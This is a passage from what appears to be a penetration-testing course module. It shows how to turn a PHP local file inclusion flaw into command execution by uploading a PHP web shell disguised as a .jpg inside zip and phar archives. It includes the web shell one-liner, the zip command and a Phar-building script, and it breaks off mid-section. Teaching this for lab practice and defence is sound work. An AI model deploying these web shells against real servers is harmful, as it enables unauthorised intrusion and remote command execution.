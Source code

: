 ***

### Zip Upload

As mentioned earlier, the above technique is very reliable and should work in most cases and with most web frameworks, as long as the vulnerable function allows code execution. There are a couple of other PHP-only techniques that utilize PHP wrappers to achieve the same goal. These techniques may become handy in some specific cases where the above technique does not work.

We can utilize the [zip](https://www.php.net/manual/en/wrappers.compression.php) wrapper to execute PHP code. However, this wrapper isn't enabled by default, so this method may not always work. To do so, we can start by creating a PHP web shell script and zipping it into a zip archive (named `shell.jpg`), as follows:

LFI and File Uploads

```shell-session
root@htb[/htb]$ echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php
```

Note: Even though we named our zip archive as (shell.jpg), some upload forms may still detect our file as a zip archive through content-type tests and disallow its upload, so this attack has a higher chance of working if the upload of zip archives is allowed.

Once we upload the `shell.jpg` archive, we can include it with the `zip` wrapper as (`zip://shell.jpg`), and then refer to any files within it with `#shell.php` (URL encoded). Finally, we can execute commands as we always do with `&cmd=id`, as follows:

![](https://academy.hackthebox.com/storage/modules/23/data\_wrapper\_id.png)

As we can see, this method also works in executing commands through zipped PHP scripts.

Note: We added the uploads directory (`./profile_images/`) before the file name, as the vulnerable page (`index.php`) is in the main directory.

***

### Phar Upload

Finally, we can use the `phar://` wrapper to achieve a similar result. To do so, we will first write the following PHP script into a `shell.php` file:

Code: php

```php
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();
```

This script can be compiled into a `phar` file that when called would write a web shell to a `shell.txt` sub-file, which we can interact with. We can compile it into a `phar` file and rename it to `shell.jpg` as follows:
